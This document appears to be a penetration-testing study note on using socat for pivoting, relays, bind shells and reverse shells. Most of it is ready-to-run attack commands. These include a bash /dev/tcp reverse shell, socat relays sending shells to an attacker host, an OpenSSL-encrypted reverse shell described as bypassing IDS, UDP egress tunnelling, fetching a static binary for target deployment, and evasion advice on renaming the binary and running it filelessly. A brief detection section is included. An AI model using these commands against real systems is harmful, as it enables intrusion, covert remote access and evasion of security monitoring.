

# 73.07 Socat Relays and Bind Shells

## 1. Introduction to Socat
`socat` (SOcket CAT) is a highly versatile networking utility that establishes two bidirectional byte streams and transfers data between them. Unlike Netcat, `socat` supports an enormous array of protocols and address types, including TCP, UDP, SSL/TLS, IPv6, Unix sockets, and even raw file descriptors.
In the context of VAPT and Advanced Network Pivoting, `socat` is primarily utilized to establish encrypted relays, bypass rigid firewall egress filters, and create highly stable bind/reverse shells. Because it is a standalone binary (and can be statically compiled), it is frequently deployed to compromised Linux hosts to serve as a reliable pivot point without the overhead of heavy frameworks like Metasploit.

## 2. Architectural Overview
A typical `socat` relay involves a compromised host listening on an internal interface and forwarding the raw byte stream directly to another internal target or back to the attacker's C2.
Because `socat` operates at the transport layer (Layer 4), it does not care about the underlying application layer (Layer 7) protocol. It simply takes bytes from Socket A and pushes them to Socket B.

## 3. ASCII Diagram: Socat Relaying Architecture



## 4. Deep Dive: Socat TCP Relays

### 4.1 Basic Port Forwarding (Local to Remote)
To forward a local port on the compromised host to a remote internal target:
```bash
# On the Compromised Host
socat TCP4-LISTEN:8080,fork TCP4:192.168.1.100:80
```
- `TCP4-LISTEN:8080`: Listens on port 8080 on all interfaces.
- `fork`: Crucial for pivoting. It spawns a child process for every new connection, allowing multiple connections simultaneously.
- `TCP4:192.168.1.100:80`: The destination for the forwarded traffic.
*Any traffic hitting the Pivot Node on port 8080 will be routed to the Internal Database on port 80.*

### 4.2 Reverse Shell Relay
In highly segmented networks, an internal server might not have outbound internet access, but it *can* communicate with a DMZ server you compromised. You can use `socat` on the DMZ server to relay the reverse shell back to you.
```bash
# 1. On Attacker C2 (Listen for shell)
nc -lvnp 4444

# 2. On Compromised Pivot Node in DMZ (Relay the shell)
socat TCP4-LISTEN:8000,fork TCP4:203.0.113.5:4444

# 3. On Target Internal Server (Send the shell)
bash -i >& /dev/tcp/192.168.1.50/8000 0>&1
```

## 5. Deep Dive: Encrypted Relays (OPENSSL)

### 5.1 Why Use SSL/TLS?
Cleartext reverse shells and relays are easily intercepted by IDS/IPS and Deep Packet Inspection (DPI) firewalls. `socat` natively supports wrapping connections in OpenSSL, effectively encrypting the payload and bypassing many signature-based detections.

### 5.2 Generating Certificates
To utilize `socat` with SSL, you must generate a certificate and key on the attacker machine:
```bash
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 365 -out bind.crt
cat bind.key bind.crt > bind.pem
```

### 5.3 Establishing the SSL Listener
```bash
# On the Attacker Machine
socat OPENSSL-LISTEN:443,cert=bind.pem,verify=0,fork STDOUT
```

### 5.4 Connecting the SSL Relay
```bash
# On the Compromised Node
socat EXEC:"bash -li",pty,stderr,sigint,setsid,sane OPENSSL:203.0.113.5:443,verify=0
```
This spawns an incredibly stable, fully interactive, and fully encrypted reverse shell.

## 6. Advanced Socat Capabilities

### 6.1 Creating a Fully Interactive TTY Bind Shell
If you need to leave a bind shell on a system, `socat` provides the most stable TTY possible.
```bash
# On the Target System
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:"bash -li",pty,stderr,sigint,setsid,sane

# On the Attacker System
socat FILE:`tty`,raw,echo=0 TCP:192.168.1.50:1337
```
*Note: `pty,stderr,sigint,setsid,sane` are magic flags that allocate a pseudo-terminal, merge stderr into stdout, handle interrupt signals correctly, and ensure sane terminal line settings. This prevents the shell from dying if you press Ctrl+C.*

### 6.2 Bypassing Egress via UDP
If TCP is completely blocked outbound, but UDP is permitted (often for DNS or NTP), `socat` can tunnel a TCP connection over a UDP transport.
```bash
# On Attacker
socat TCP4-LISTEN:8000,fork UDP4-LISTEN:53

# On Compromised Host
socat UDP4:203.0.113.5:53 TCP4:127.0.0.1:22
```
This allows the attacker to connect to `localhost:8000` via TCP, and the traffic is transparently routed over UDP 53 to reach the compromised host's internal SSH service.

## 7. Comprehensive Reference / Command Cheatsheet

### 7.1 Common Socat Parameters
| Parameter | Description |
|-----------|-------------|
| `fork` | Spawns a child process per connection (vital for relays). |
| `reuseaddr` | Allows immediate reuse of local addresses/ports after crash. |
| `pty` | Allocates a pseudo-terminal. |
| `sane` | Sets standard terminal attributes. |
| `verify=0` | Disables SSL certificate verification (crucial for self-signed certs). |
| `EXEC:` | Executes a command and connects its standard I/O to the socket. |
| `SYSTEM:` | Similar to EXEC but uses `/bin/sh -c`. |

### 7.2 Static Compilation
When bringing `socat` to a target, always bring a statically compiled binary to avoid dependency hell (missing libc versions, etc.).
```bash
# Cross-compiling a static socat binary for target deployment
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
chmod +x socat
```

## 8. Evasion and OpSec
- **Rename the Binary**: Do not execute a binary named `socat` on the target. Rename it to something benign like `kworker` or `sshd-helper`.
- **Memory Execution**: In highly monitored environments, do not drop `socat` to disk. Use `memfd_create` or fileless execution techniques to load the statically compiled binary directly into memory.
- **Port Selection**: Always listen on high, ephemeral ports (e.g., 40000+) or well-known standard ports (e.g., 80, 443) depending on the environment's baseline. Avoid ports like 1337 or 4444.

## 9. Detection and Mitigation
- **Process Monitoring**: EDR should flag instances of `bash -i` or `/bin/sh` being spawned as a child process of unknown binaries, or binaries located in `/tmp` or `/dev/shm`.
- **Network Baselines**: Encrypted traffic on non-standard ports (e.g., SSL traffic on port 8000) should trigger SIEM alerts.
- **Command Line Logging**: Detect the use of specific `socat` arguments in command line execution logs (e.g., `OPENSSL-LISTEN`, `EXEC`, `pty,sane`).

## 10. Chaining Opportunities
- **Chaining with SSH**: Use a `socat` relay to expose an internal SSH service to your attacker machine, and then use SSH Dynamic Port Forwarding (`ssh -D`) over the socat link for a full SOCKS proxy.
- **Chaining with Metasploit**: Use a `socat` relay to bounce a heavily obfuscated Meterpreter payload out of a restricted subnet.

## 11. Related Notes
- [[06 - Meterpreter Portfwd and Autoroute]]
- [[12 - SSH Dynamic Port Forwarding]]
- [[13 - Chisel and Ligolo-ng Advanced Pivoting]]
- [[14 - Evasion via Living Off The Land (LOLBins)]]
